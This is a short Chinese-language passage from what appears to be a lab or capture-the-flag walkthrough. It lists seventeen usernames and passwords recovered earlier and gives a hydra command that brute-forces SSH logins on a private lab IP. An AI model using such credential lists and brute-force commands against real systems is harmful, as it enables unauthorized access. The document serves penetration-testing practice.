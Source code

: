 ## 3.1 hydra爆破SSH账户

我们用刚才获得的.csv文件中的账户和密码

分别保存到一个txt文件里面,

分别为：

username.txt

```
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

password.txt

```
3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
```

```
hydra -L username.txt -P password.txt ssh://192.168.81.145
```
